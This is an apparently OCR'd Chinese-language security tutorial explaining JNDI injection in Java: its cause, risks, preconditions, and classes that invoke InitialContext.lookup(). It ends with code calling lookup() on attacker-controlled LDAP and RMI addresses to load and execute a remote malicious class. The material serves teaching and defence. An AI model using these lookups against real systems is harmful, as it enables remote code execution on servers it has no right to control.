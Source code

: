 ## 思考明白：
- **什么是JNDI注入**：JNDI注入是指攻击者通过控制JNDI服务的lookup参数，诱导目标系统从恶意服务器加载并执行恶意类，最终实现远程代码执行的攻击方式。
- **为什么有JNDI注入**：JNDI的`lookup()`方法支持从远程服务（如RMI、LDAP）获取对象，若该方法的参数可控，攻击者可构造恶意URL，使目标系统加载远程恶意类。
- **JNDI注入安全问题**：核心风险是远程代码执行，攻击者可通过此漏洞控制目标服务器，窃取数据、植入后门等。
- **JNDI注入利用条件**：目标系统需调用`InitialContext.lookup()`且参数可控；目标JDK版本存在漏洞（或可绕过限制）；攻击者可控制RMI/LDAP服务或恶意类服务器。

参考：https://blog.csdn.net/dupei/article/details/120534024


## #JNDI注入-RMI&LDAP服务
JNDI全称为 Java Naming and Directory Interface（Java命名和目录接口），是一组应用程序接口，为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定义用户、网络、机器、对象和服务等各种资源。JNDI支持的服务主要有：DNS、LDAP、CORBA、RMI等。

- **RMI**：远程方法调用注册表，允许程序调用远程主机上的对象方法。
- **LDAP**：轻量级目录访问协议，用于访问和维护分布式目录信息服务。


### 调用检索：
Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Directory服务下，比如RMI、LDAP等。关键触发点是`javax.naming.InitialContext.lookup()`方法，当该方法的参数可控时，可能导致JNDI注入。

在RMI服务中调用了`InitialContext.lookup()`的类有：
```java
// 这些类在特定操作中会调用lookup()，若参数可控则可能触发注入
org.springframework.transaction.jta.JtaTransactionManager.readObject()
com.sun.rowset.JdbcRowSetImpl.execute()
javax.management.remote.rmi.RMIConnector.connect()
org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName(String sfJNDIName)
```

在LDAP服务中调用了`InitialContext.lookup()`的类有：
```java
// 这些类的lookup相关方法若参数可控，可能成为注入入口
InitialDirContext.lookup()
Spring LdapTemplate.lookup()
LdapTemplate.lookupContext()
```


#### JNDI远程调用-JNDI-Injection
通过创建RMI/LDAP远程服务，诱导目标系统调用`lookup()`方法加载恶意类，实现代码执行。

- 创建一个rmi/ldap等远程服务调用**实例化对象**：
  ```java
  // 初始化JNDI上下文，用于后续的远程服务调用
  InitialContext ini = new InitialContext();
  ```

- 调用rmi/ldap等服务对象类（远程服务）= 远程地址的一个class文件被执行：
  ```java
  // 调用LDAP服务，参数为攻击者控制的恶意LDAP地址
  ini.lookup("ldap://192.168.93.130:1389/edg7om");
  // 调用RMI服务，参数为攻击者控制的恶意RMI地址
  ini.lookup("rmi://192.168.93.130:1099/lnl0yp");
  ```

